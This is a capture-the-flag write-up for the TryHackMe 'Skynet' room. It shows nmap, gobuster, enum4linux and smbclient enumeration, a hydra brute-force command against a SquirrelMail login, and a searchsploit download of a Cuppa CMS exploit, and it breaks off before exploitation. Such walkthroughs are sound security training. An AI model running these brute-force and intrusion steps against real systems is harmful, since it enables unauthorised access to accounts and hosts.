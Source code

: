 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit

[IP](./images/IP.png)

## Task 1 - Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

## Enumeration

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with hydra

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

### Answer the questions below

* What is Miles password for his emails?

* What is the hidden directory?

* What is the vulnerability called when you can include a remote file for malicious purposes?

* What is the user flag?

* What is the root flag?


